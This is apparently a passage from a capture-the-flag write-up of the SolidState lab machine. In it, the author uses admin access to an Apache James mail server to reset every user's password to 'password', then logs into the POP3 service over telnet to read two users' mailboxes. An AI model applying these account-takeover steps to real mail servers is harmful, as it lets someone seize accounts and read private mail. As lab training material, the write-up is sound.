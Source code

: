 ```bash
listusers
Existing accounts 5
user: james
user: thomas
user: john
user: mindy
user: mailadmin
```

It seems like there are 5 users. We can probably change the password for all of these users since we are admin.

```bash
setpassword james password
Password for james reset
setpassword thomas password
Password for thomas reset
setpassword john password
Password for john reset
setpassword mindy password
Password for mindy reset
setpassword mailadmin password
Password for mailadmin reset
```

# Exploitation

Now lets take a look at port `110` and login as `james`. 

```bash
┌──(root㉿shiro)-[/home/shiro]
└─# telnet 10.10.10.51 110
Trying 10.10.10.51...
Connected to 10.10.10.51.
Escape character is '^]'.
+OK solidstate POP3 server (JAMES POP3 Server 2.3.2) ready 
USER james
+OK
PASS password
+OK Welcome james
list
+OK 0 0
.
```

>   You can escape the telnet terminal by using `^]`, followed by `quit`.

There’s nothing much for `james` so lets try `thomas`.

```bash
┌──(root㉿shiro)-[/home/shiro]
└─# telnet 10.10.10.51 110
Trying 10.10.10.51...
Connected to 10.10.10.51.
Escape character is '^]'.
+OK solidstate POP3 server (JAMES POP3 Server 2.3.2) ready 
USER thomas
+OK
PASS password
+OK Welcome thomas
list
+OK 0 0
.
```

